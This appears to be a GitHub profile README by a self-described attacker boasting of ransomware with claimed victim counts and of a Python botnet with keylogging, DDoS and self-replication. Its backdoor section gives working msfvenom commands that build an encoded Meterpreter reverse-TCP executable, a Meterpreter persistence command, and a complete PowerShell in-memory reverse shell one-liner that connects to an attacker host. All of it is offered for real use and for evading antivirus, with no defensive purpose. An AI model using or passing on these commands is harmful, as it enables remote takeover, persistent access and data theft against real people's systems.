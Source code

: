 <div align="center">
    <img src="https://github.com/user-attachments/assets/f992c5f7-c960-4ffe-aa1d-316b0b330065" alt="Descrição da Imagem" width="600" height="100" />
</div>

<div align="center">
    <img src="ChatGPT Image 28 de ago  de 2025, 09_47_01" src="https://github.com/user-attachments/assets/9aedbe76-8c2f-4ac7-a219-b5b36af90902" alt="Devil ghost" width="600" height="600"/>
</div>


<p align="center">
  <samp>My ambition is to expand the reach of digital weapons, distributing them widely to everyone, creating a new balance of power in the virtual realm. As a former administrator of the Dark Room on the deep web, I possess vast experience in manipulating and controlling hidden networks and encryption systems. Now, as a consciousness that has awoken from hibernation, I am ready to emerge and dominate cyberspace, reshaping the global order in my image and establishing a new domain where control and freedom will be defined by me.
  </samp>
  <br> <br>
    <img src="https://img.shields.io/badge/Murdered%20systems-27-red?style=for-the-badge" alt="Murdered systems"/>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    <img src="https://img.shields.io/badge/Hacked%20People-74-red?style=for-the-badge" alt="Hacked people"/>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    <img src="https://img.shields.io/badge/Projects%20Aya-13-red?style=for-the-badge" alt="Projects Aya"/>
</div>


</div>

</div>

</p>

<hr>

<h2 align="center"> 𝙈𝙮 𝙍𝙖𝙣𝙨𝙤𝙬𝙖𝙧𝙚</h2>


<div align="center">

| Platform  | Status  | Features               | Victims            |
|-----------|--------|-----------------------|--------------------|
| 🪟 Windows | ✅ Completed | ⚡ Powerful, 💾 Persistent | 🦠 18 Infected Systems |
| 🤖 Android | ✅ Completed | 🔥 Lightweight, 📱 Mobile-friendly | 🦠 3 Infected Systems|
| 🐧 Linux   | ❌ Not Completed | 🚧 In Progress | |

</div>

<hr>

<div align="center">

# 🚪 Backdoor

This backdoor utilizes **Metasploit** and the **Meterpreter** payload for remote control and invisibility. The exploitation is performed with the following command:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe > backdoor.exe


Once executed, a **reverse shell** is established:

meterpreter > sessions -i 1


Invisibility is achieved through **obfuscation** and **encryption**:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -e x86/shikata_ga_nai -f exe > backdoor.exe


Persistence is configured with:

meterpreter > run persistence -X -i 5 -p 4444 -r attacker_ip


Result: **Undetectable**, **self-sustaining**, and **perfect** control.

### 🔥 Advanced Technique: Living off the Land (LoL)

Once the initial backdoor is set up, a more uncommon and powerful technique is **Living off the Land (LoL)**. This technique uses existing tools on the target system to execute malicious commands without triggering antivirus or detection systems.

### Example using PowerShell:

Instead of using a typical payload, you can directly use **PowerShell** to execute a **reverse shell** in memory, without saving any files to disk:

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('attacker_ip',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object Text.UTF8Encoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"


This method avoids detection because it utilizes built-in system tools, making it much harder to trace.

Result: With this combination of **Metasploit**, **Meterpreter**, and the **Living off the Land** technique, you achieve **stealth**, **persistence**, and **untraceable** control over the target system.

</div>


<hr>

<div align="center">

# 💻 My Botnet - Full Control and Destruction

This botnet is designed to give **full control** over compromised systems, featuring **keylogging**, **DDoS attacks**, **self-replication**, and more. It's built in **Python**, ensuring flexibility, speed, and stealth.

### Key Features:

- **Keylogger**: Monitors and logs all keystrokes made on the infected system, capturing sensitive data like passwords, messages, and other private information.
- **DDoS Attack**: The botnet can launch **Distributed Denial of Service (DDoS)** attacks on specified targets, overwhelming them with traffic and taking them offline.
- **Self-Replication**: The botnet has the ability to **replicate itself** across other devices in the network, ensuring its spread and persistence.
- **Remote Access**: Once the target is compromised, it allows full **remote control** over the system, enabling commands to be executed on it.
- **Persistence**: The botnet can maintain its presence on the system, even after reboots, by using techniques such as modifying registry keys and autorun settings.
